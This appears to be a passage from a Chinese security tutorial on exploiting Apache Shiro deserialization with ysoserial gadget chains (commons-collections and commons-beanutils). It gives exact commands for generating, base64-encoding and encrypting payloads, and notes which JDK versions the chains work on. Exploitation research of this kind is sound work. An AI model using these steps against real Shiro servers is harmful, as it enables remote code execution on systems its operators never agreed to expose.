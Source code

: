 [![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t0150bb3372321e1ebb.png)

最后的反序列化执行流如下，但这并不意味着构造流程，在构造的时候我们更多关注的是不同类之间的依赖关系。

[![](https://p1.ssl.qhimg.com/t01b4963bbd93885877.png)](https://p1.ssl.qhimg.com/t01b4963bbd93885877.png)

完整代码链接 [https://github.com/BabyTeam1024/ysoserial_analyse/blob/main/shiro_CC5_2](https://github.com/BabyTeam1024/ysoserial_analyse/blob/main/shiro_CC5_2)

### <a class="reference-link" name="0x3%20%E6%9C%89%E6%95%B0%E7%BB%84%E5%9E%8Bcommons-collections3%E5%88%A9%E7%94%A8%E9%93%BE"></a>0x3 有数组型commons-collections3利用链

**使用场景**<br>
在shiro服务器上的tomcat lib目录中部署了commons-collections3.jar，如下图所示

[![](https://p5.ssl.qhimg.com/t01395e52fb485d8f7d.png)](https://p5.ssl.qhimg.com/t01395e52fb485d8f7d.png)

使用方式如下

```
java -jar ysoserial-0.0.6-SNAPSHOT-BETA-all.jar CommonsCollections6 "touch /tmp/xxxx"  &gt; /tmp/1.txt
cat /tmp/1.txt|base64
python3 crypt1.py base64Content
```

[![](https://p4.ssl.qhimg.com/t01d1fd9f2424b4309c.png)](https://p4.ssl.qhimg.com/t01d1fd9f2424b4309c.png)

在复现有数组利用链的时候有个坑，因为服务使用的JDK为1.8，所以在使用cc链的时候要注意，不要采用在JDK1.7下才可用的利用链。

### <a class="reference-link" name="0x4%20%E6%97%A0%E6%95%B0%E7%BB%84%E5%9E%8Bcommons-beanutils%E5%88%A9%E7%94%A8%E9%93%BE"></a>0x4 无数组型commons-beanutils利用链

**使用场景**<br>
这种情况适用于shiro上拥有commons-beanutils依赖库，并且该库存在于WEB-INF/lib中。

[![](https://p5.ssl.qhimg.com/t012aaf3b8a4a1cc4cd.png)](https://p5.ssl.qhimg.com/t012aaf3b8a4a1cc4cd.png)

使用方式如下

```
java -jar ysoserial-0.0.6-SNAPSHOT-BETA-all.jar CommonsBeanutils1 "touch /tmp/xasdf"  &gt; /tmp/1.txt
cat /tmp/1.txt|base64
python3 crypt1.py base64Content
```

[![](https://p0.ssl.qhimg.com/t011d956869a30acb4b.png)](https://p0.ssl.qhimg.com/t011d956869a30acb4b.png)
